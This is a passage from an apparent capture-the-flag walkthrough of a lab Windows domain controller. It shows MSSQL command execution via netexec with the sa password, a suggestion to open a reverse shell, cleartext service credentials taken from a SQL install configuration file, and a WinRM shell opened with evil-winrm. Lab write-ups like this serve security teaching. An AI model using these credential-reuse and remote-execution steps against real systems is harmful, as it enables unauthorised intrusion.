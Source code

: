 ```bash
$nxc mssql sequel.htb -u sa -p MSSQLP@ssw0rd! --local-auth -x whoami MSSQL       10.129.137.51  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.129.137.51  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!) MSSQL       10.129.137.51  1433   DC01             [+] Executed command via mssqlexec MSSQL       10.129.137.51  1433   DC01             sequel\sql_svc
```

Let's use this command execution to establish a shell using our reverse shell method of choice.

## Cleartext Credentials

Looking around we can find `Ryan`'s password `WqSZAF6CysDQbGb3` in `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`

```bash
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

Ryan is part of the Remote Managers group so we can access the machine through WinRM

```bash
$evil-winrm -i sequel.htb -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
```